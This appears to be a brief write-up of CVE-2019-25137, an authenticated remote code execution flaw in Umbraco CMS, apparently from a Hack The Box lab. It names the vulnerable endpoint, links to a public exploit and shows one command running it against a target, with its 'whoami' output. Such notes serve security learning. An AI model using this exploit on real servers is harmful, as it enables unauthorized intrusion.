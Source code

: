 # CVE-2019-25137 - Umbraco CMS 7.12.4 - (Authenticated) Remote Code Execution

Umbraco CMS 4.11.8 through 7.15.10, and 7.12.4, allows Remote Code Execution by authenticated administrators via msxsl:script in an xsltSelection to developer/Xslt/xsltVisualize.aspx.

## Enumeration

![Umbraco version](images/umbraco_version.png)

## Exploitation

Download and run the [exploit](https://github.com/noraj/Umbraco-RCE/blob/master/exploit.py)

```bash
$ python3 exploit.py -u <user> -p <pwd> -i http://$TARGET/ -c whoami
iis apppool\defaultapppool
```

## Links

- [NVD - CVE-2019-25137](https://nvd.nist.gov/vuln/detail/CVE-2019-25137)
- [GitHub - noraj - Umbraco-RCE](https://github.com/noraj/Umbraco-RCE)
- [HTB Machine Remote](https://app.hackthebox.com/machines/234)
